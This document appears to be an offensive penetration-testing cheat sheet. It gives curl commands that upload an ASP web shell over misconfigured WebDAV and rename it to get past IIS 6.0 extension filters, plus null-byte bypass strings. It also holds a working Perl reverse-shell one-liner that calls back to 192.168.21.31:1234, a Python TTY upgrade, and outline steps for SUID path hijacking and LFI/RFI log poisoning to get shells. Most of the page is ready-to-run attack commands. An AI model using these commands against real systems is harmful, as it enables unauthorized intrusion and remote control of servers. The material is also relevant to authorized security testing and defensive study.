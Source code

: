 # cURL

IF MODIFY, PUT, MOVE, DELE etc HEADERS are misconfigured.

#### UPLOAD
```
Curl -T ‘location of file’ ‘http://target/name
e.g
      curl -T 'shell.asp' 'http://<IPADDRESS>/shell.asp'
```

#### RENAME

CAN USE THIS TO BYPASS FILE EXTENSIONS Restrictions

```
curl -X MOVE --header 'Destination:http://<TARGETIPADDRESS>/shell.asp;.txt' 'http://<TARGETIPADDRESS>/shell.txt'
e.g
      changing from shell.txt --> shell.asp;.txt

p.s bypasses IIS 6.0 File extensions 
```

#### CREATE DIRECTORY
```
curl -X MKCOL 'http://<IPADDRESS>/test'
```

# NULL BYTES

Bypass File Extentension Restrictions

```
%23
%00
```

# ESCAPE JAIL SHELL

# USING PERL REVERSE SHELL INTO PYTHON TTY

```
/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.21.31:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
/usr/bin/python -c 'import pty; pty.spawn("/bin/sh")'

```

# EXPLOITING SUID FILES SYMLINK
Using strings  "exploit.file"
  - Find a dependency

Change EXPORT path to /tmp/
  - Create a binary file with the same name as dependency
  - Have this file create a reverse shell
Run the misconfigured SUID file, it will return a reverse shell using SUID


# EXPLOITING LFI / RFI
#### BASIC LFI
```
     Log Poisoning
     Using LFI to run an already uploaded backdoor
```
#### BASIC RFI
```
Create a .php reverse shell
Rename file extension to .txt  [ May need to append null bytes depending if headers are included, check apache access logs ]
Navigate to file through RFI exploit
```
